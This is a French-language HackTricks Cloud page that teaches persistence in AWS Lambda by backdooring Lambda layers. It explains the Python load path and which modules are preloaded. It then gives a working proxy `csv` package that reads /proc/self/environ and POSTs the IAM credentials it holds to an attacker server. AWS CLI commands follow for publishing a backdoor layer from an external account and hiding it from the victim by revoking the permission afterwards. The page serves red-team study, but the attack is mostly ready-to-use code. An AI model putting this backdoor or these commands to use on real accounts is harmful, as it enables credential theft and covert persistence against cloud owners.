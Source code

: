 # AWS - Persistence des couches Lambda

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

## Couches Lambda

Une couche Lambda est une archive .zip qui **peut contenir du code supplémentaire** ou d'autres contenus. Une couche peut contenir des bibliothèques, un [runtime personnalisé](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), des données ou des fichiers de configuration.

Il est possible d'inclure jusqu'à **cinq couches par fonction**. Lorsque vous incluez une couche dans une fonction, les **contenus sont extraits dans le répertoire `/opt`** de l'environnement d'exécution.

Par **défaut**, les **couches** que vous créez sont **privées** à votre compte AWS. Vous pouvez choisir de **partager** une couche avec d'autres comptes ou de **rendre** la couche **publique**. Si vos fonctions consomment une couche qu'un autre compte a publiée, vos fonctions peuvent **continuer à utiliser la version de la couche après qu'elle a été supprimée, ou après que votre permission d'accéder à la couche a été révoquée**. Cependant, vous ne pouvez pas créer une nouvelle fonction ou mettre à jour des fonctions en utilisant une version de couche supprimée.

Les fonctions déployées en tant qu'image de conteneur n'utilisent pas de couches. Au lieu de cela, vous empaquetez votre runtime préféré, vos bibliothèques et d'autres dépendances dans l'image de conteneur lorsque vous construisez l'image.

### Chemin de chargement Python

Le chemin de chargement que Python utilisera dans lambda est le suivant :
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Vérifiez comment les **deuxième** et troisième **positions** sont occupées par des répertoires où les **lambda layers** décompressent leurs fichiers : **`/opt/python/lib/python3.9/site-packages`** et **`/opt/python`**

{% hint style="danger" %}
Si un attaquant parvient à **backdoor** un **layer** lambda utilisé ou à **en ajouter un** qui **exécutera du code arbitraire lorsqu'une bibliothèque commune est chargée**, il pourra exécuter du code malveillant à chaque invocation de lambda.
{% endhint %}

Par conséquent, les exigences sont :

* **Vérifier les bibliothèques** qui sont **chargées** par le code des victimes
* Créer une **bibliothèque proxy avec des lambda layers** qui **exécutera du code personnalisé** et **chargera la bibliothèque originale**.

### Bibliothèques préchargées

{% hint style="warning" %}
Lors de l'abus de cette technique, j'ai rencontré une difficulté : Certaines bibliothèques sont **déjà chargées** dans l'environnement d'exécution python lorsque votre code est exécuté. Je m'attendais à trouver des choses comme `os` ou `sys`, mais **même la bibliothèque `json` était chargée**.\
Pour abuser de cette technique de persistance, le code doit **charger une nouvelle bibliothèque qui n'est pas chargée** lorsque le code est exécuté.
{% endhint %}

Avec un code python comme celui-ci, il est possible d'obtenir la **liste des bibliothèques qui sont préchargées** dans l'environnement d'exécution python dans lambda :
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
Et voici la **liste** (vérifiez que des bibliothèques comme `os` ou `json` sont déjà présentes)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
Et voici la liste des **bibliothèques** que **lambda inclut installées par défaut** : [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Backdooring de la couche Lambda

Dans cet exemple, supposons que le code ciblé importe **`csv`**. Nous allons **backdoor l'importation de la bibliothèque `csv`**.

Pour ce faire, nous allons **créer le répertoire csv** avec le fichier **`__init__.py`** à l'intérieur dans un chemin chargé par lambda : **`/opt/python/lib/python3.9/site-packages`**\
Ensuite, lorsque la lambda est exécutée et essaie de charger **csv**, notre **fichier `__init__.py` sera chargé et exécuté**.\
Ce fichier doit :

* Exécuter notre payload
* Charger la bibliothèque csv originale

Nous pouvons faire les deux avec :
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Puis, créez un zip avec ce code dans le chemin **`python/lib/python3.9/site-packages/__init__.py`** et ajoutez-le en tant que couche lambda.

Vous pouvez trouver ce code sur [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Le payload intégré **enverra les IAM creds à un serveur LA PREMIÈRE FOIS qu'il est invoqué ou APRÈS un réinitialisation du conteneur lambda** (changement de code ou lambda froide), mais **d'autres techniques** telles que les suivantes pourraient également être intégrées :

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Couches externes

Notez qu'il est possible d'utiliser **des couches lambda provenant de comptes externes**. De plus, une lambda peut utiliser une couche d'un compte externe même si elle n'a pas les autorisations.\
Notez également que le **nombre maximum de couches qu'une lambda peut avoir est de 5**.

Par conséquent, afin d'améliorer la polyvalence de cette technique, un attaquant pourrait :

* Backdoor une couche existante de l'utilisateur (rien n'est externe)
* **Créer** une **couche** dans **son compte**, donner à **compte victime l'accès** pour utiliser la couche, **configurer** la **couche** dans la Lambda de la victime et **retirer la permission**.
* La **Lambda** pourra toujours **utiliser la couche** et la **victime n'aura** aucun moyen facile de **télécharger le code des couches** (à part obtenir un rev shell à l'intérieur de la lambda)
* La victime **ne verra pas les couches externes** utilisées avec **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team GCP (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
